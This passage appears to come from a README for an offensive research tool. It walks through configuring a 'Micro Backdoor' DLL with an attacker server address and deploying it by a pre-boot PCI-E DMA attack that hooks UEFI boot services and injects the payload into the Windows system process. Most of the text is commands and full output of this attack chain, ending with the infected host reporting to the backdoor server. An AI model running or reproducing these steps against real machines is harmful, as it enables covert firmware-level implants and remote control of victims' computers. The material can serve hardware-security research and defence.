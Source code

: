 Now you need to write server configuration into the Micro Backdoor DLL image file using `client_builder.py` program (where `192.168.2.7` is IP address of the host where server is running):

```
./client_builder.py client_amd64_debug.dll 192.168.2.7
Using server address 192.168.2.7:28115
Using server certificate "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.crt"
45568 bytes readed from "client_amd64_debug.dll"
".conf" section at RVA 0xa800
45568 bytes written into the "client_amd64_debug.dll"
```

Now you can use `uefi_backdoor_boot.py` program with Micro Backdoor payload in the same way as it was described in [Deploying the backdoor using pre-Boot DMA attack](#deploying-the-backdoor-using-pre-boot-dma-attack) section:

```
$ ./uefi_backdoor_boot.py --payload client_amd64_debug.dll
[+] 45568 bytes of payload image read
[+] 27685 bytes of payload image after the compression
[+] Using UEFI system table hook injection method
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x16139
Backdoor entry RVA is 0x908
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0908
1.846655 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for backdoor load...
[+] Winload image was loaded

              Image base: 0x0086a000
 OslArchTransferToKernel: 0x009c4b20

[+] DONE
```

When operating system startup is complete Boot Backdoor will inject its payload into the system process and you will see new client in the web interface of Micro Backdoor server:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/micro_backdoor_web.png" width="827" height="420">


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724